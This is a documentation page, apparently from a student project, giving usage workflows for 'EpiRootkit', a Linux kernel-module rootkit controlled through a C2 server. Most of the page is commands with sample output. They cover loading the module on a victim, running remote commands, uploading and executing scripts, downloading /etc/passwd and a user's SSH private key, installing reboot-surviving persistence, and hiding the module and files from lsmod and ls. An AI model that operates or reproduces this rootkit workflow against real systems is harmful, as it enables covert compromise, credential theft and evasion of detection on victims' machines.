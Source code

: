 ```yaml
---
title: "Usage & Workflows"
description: "Usage scenarios and workflows"
icon: "play_arrow"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 303
---
```


# Usage Guide

Complete workflows for the EpiRootkit C2 server.

## Quick Start

### 1. Start C2 Server
```bash
cd attacking_program
pnpm start
# ✓ Server started on port 4444
# ✓ Web interface started on port 3000
```

### 2. Install Rootkit (Victim)
```bash
sudo insmod epirootkit.ko
# C2 server shows: ✓ Client-1 Connected
```

### 3. Authenticate
```bash
auth Client-1 password
# ✓ [2025-05-25 16:13:30] Authenticated
# SUCCESS: Authentication successful
```

## Basic Workflows

### Client Management
```bash
# List clients
ls
# • Client-1 - AUTHENTICATED - Last seen: 6:13:29 PM
# • Client-2 - UNAUTHENTICATED - Last seen: 6:10:15 PM

# Check status
status Client-1
# EpiRootkit Status:
# Version: 1.0.0
# Authentication: YES
# Module Hidden: YES
# Persistence: ENABLED

# Monitor connection
keepalive Client-1
# Last ping: 2025-05-25 16:14:00
# Connection: STABLE
```

### Command Execution
```bash
# System reconnaissance
exec Client-1 whoami
# Exit code: 0
# Output: root

exec Client-1 uname -a
# Linux victim 5.4.0-74-generic #83-Ubuntu x86_64 GNU/Linux

exec Client-1 ps aux | head -5
# USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
# root         1  0.0  0.1 225468  9876 ?        Ss   15:00   0:01 /sbin/init

# Network information
exec Client-1 ip addr show
exec Client-1 netstat -tuln
```

### File Transfer
```bash
# Upload files
upload Client-1 ./script.sh /tmp/script.sh
# ✓ File uploaded successfully (512 bytes)

exec Client-1 chmod +x /tmp/script.sh
exec Client-1 /tmp/script.sh

# Download files
download Client-1 /etc/passwd ./passwd
# ✓ File downloaded successfully (2048 bytes)

download Client-1 /home/user/.ssh/id_rsa ./keys/
# ✓ File downloaded successfully (1679 bytes)
```

## Advanced Workflows

### Persistence Setup
```bash
# Install all persistence mechanisms
persist Client-1 install
# SUCCESS: All persistence mechanisms installed

# Test persistence (victim reboots)
exec Client-1 reboot
# Wait for reconnection...

ls
# • Client-1 - UNAUTHENTICATED - Last seen: Just now

auth Client-1 password
status Client-1
# Persistence: ENABLED (survived reboot)
```

### Stealth Operations
```bash
# Check current stealth status
status Client-1
# Module Hidden: YES
# File Hiding: YES

# Test module hiding
exec Client-1 lsmod | grep epirootkit
# (no output - module hidden)

# Test file hiding
exec Client-1 touch /tmp/epirootkit_test
exec Client-1 ls /tmp/ | grep epirootkit
# (no output - file hidden)

# But file still accessible
exec Client-1 cat /tmp/epirootkit_test
# (works normally)
```

### Configuration Management
```bash
# Interactive configuration
config Client-1
# ┌─ Configuration - Client-1
#   [X] Module Hiding (Click to disable)
#   [X] File Hiding (Click to disable)
#   [X] Persistence (Click to disable)

# Direct commands
hide_module Client-1
# SUCCESS: Module hidden

unhide_module Client-1
# SUCCESS: Module visible

hide_files Client-1
# SUCCESS: File hiding enabled
```